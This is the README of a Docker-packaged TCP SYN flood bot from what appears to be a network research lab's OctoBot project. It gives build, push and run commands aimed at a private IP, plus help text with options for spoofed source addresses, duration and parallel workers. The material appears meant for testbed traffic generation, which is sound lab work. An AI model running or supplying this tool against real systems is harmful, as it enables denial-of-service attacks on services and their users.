 # [OCTO-BOT] SynFlood-Attack-Bot

## About SynFlood-Attack-Bot

This bot performs a [TCP Syn Flood attack](https://www.netscout.com/what-is-ddos/) on its intended targets. A Syn Flood is a common form of Denial-of-Service (DDoS) attack  that can target any system connected to the Internet and providing Transmission Control Protocol (TCP) services syn-flood-attacks).

## Quick Start Guide

### Install Dependencies

We should verify that the container works locally before we push it to Docker Hub. On Ubuntu, install `docker` with this following command:

```console
ncl@orchestrator:~/$ sudo apt-get update
ncl@orchestrator:~/$ sudo apt-get install docker-ce docker-ce-cli containerd.io
ncl@orchestrator:~/$ sudo docker run hello-world
``` 
The detailed steps can be found in this [link](https://docs.docker.com/install/linux/docker-ce/ubuntu/).
For other Linux distros, visit [here](https://docs.docker.com/engine/install/). (It is not recommended to use Windows for this)

### Download the Source Code
 
Download the whole source of OctoBot software from the GitHub and navigate to the specific directory
 
```console
ncl@orchestrator:~/$ git clone https://github.com/nus-ncl/OctoBot
ncl@orchestrator:~/$ cd OctoBot/Octo-Bot/synflood-attack-bot
```
 
### Build and Run the Specific Bot under Docker
 
Build the docker image locally.
 
```console
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ ./build.sh
```

Check the docker image.

```console
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ docker images
REPOSITORY                     TAG                 IMAGE ID            CREATED             SIZE
synflood-attack-bot            latest              529fceb6545d        8 minutes ago       118MB
debian                         buster-slim         108d75da320f        8 days ago          69.2MB

```

Run the docker image locally.

```console
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ docker run synflood-attack-bot:latest -t 10.10.0.189 -p 80 443
```

Check the running docker.

```console
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ sudo docker ps -a
CONTAINER ID        IMAGE                         COMMAND                  CREATED             STATUS                      PORTS               NAMES
888677a369da        synflood-attack-bot:latest    "python3 main.py -r …"   38 seconds ago      Exited (0) 40 seconds ago                       blue_fish
```

### Push the docker image into Docker Hub

Tag and push the image with your Docker Hub repository's credential. Replace `korona` with your own username on Docker Hub.

```console
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ docker tag 529fceb6545d korona/synflood-attack-bot:latest
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ docker login --username=korona
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ docker push korona/synflood-attack-bot:latest
```

### Run the public docker image

Run locally the public docker image.

```console
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ docker run korona/synflood-attack-bot:latest -t 10.10.0.189 -p 80 443
```

## Help and Arguments

You can display the help right within the bot.

```console
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ docker run korona/synflood-attack-bot:latest --help
usage: synflood-attack.py [-h] [--interactive] [-o ORIGIN [ORIGIN ...]]
                          [-O ORIGIN_PORT [ORIGIN_PORT ...]] -t TARGET
                          [TARGET ...] -p TARGET_PORT [TARGET_PORT ...]
                          [-i INTERFACE] [-d DURATION] [-g GAP] [-w WORKERS]

optional arguments:
  -h, --help            show this help message and exit
  --interactive         use scapy interactive console
  -o ORIGIN [ORIGIN ...], --origin ORIGIN [ORIGIN ...]
                        (optional) specify source (origin) ip
  -O ORIGIN_PORT [ORIGIN_PORT ...], --origin-port ORIGIN_PORT [ORIGIN_PORT ...]
                        (optional) specify source (origin) port
  -t TARGET [TARGET ...], --target TARGET [TARGET ...]
                        specify target ip
  -p TARGET_PORT [TARGET_PORT ...], --target-port TARGET_PORT [TARGET_PORT ...]
                        specify target port
  -i INTERFACE, --interface INTERFACE
                        (optional) specify interface
  -d DURATION, --duration DURATION
                        (optional) continuously generate traffic for a set
                        duration of time
  -g GAP, --gap GAP     (optional) gap (delay) between packets
  -w WORKERS, --workers WORKERS
                        (optional) number of workers to run in parallel per
                        ip-port combination pair

```
